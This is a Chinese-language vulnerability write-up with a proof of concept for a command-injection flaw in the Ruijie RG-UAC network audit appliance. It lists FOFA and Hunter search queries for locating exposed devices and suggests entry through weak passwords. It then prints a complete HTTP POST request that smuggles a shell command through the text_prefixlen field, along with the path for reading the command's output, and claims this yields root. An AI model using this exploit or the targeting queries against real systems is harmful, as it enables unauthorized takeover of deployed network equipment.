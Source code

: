 # 锐捷RG-UAC统一上网行为管理审计系统text_prefixlen后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/19dwJ1XCwS9pynNa/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-002349.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/19dwJ1XCwS9pynNa/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-943780.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/RouteConfig/StaticRoute/static_route_add_ipv6.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 75

text_ip_addr=0000:0000:0000::0000&text_prefixlen=`ls+>1.txt`&text_gateway=1
```

![1714986473370-9947d45b-a038-4c40-bd35-887ec9be4e2c.png](./img/19dwJ1XCwS9pynNa/1714986473370-9947d45b-a038-4c40-bd35-887ec9be4e2c-905624.png)

```plain
/view/networkConfig/RouteConfig/StaticRoute/1.txt
```

![1714986484395-a1332920-5e93-49c7-9edd-aee6c39718e3.png](./img/19dwJ1XCwS9pynNa/1714986484395-a1332920-5e93-49c7-9edd-aee6c39718e3-180098.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/knbwbbtehaqo6gv1>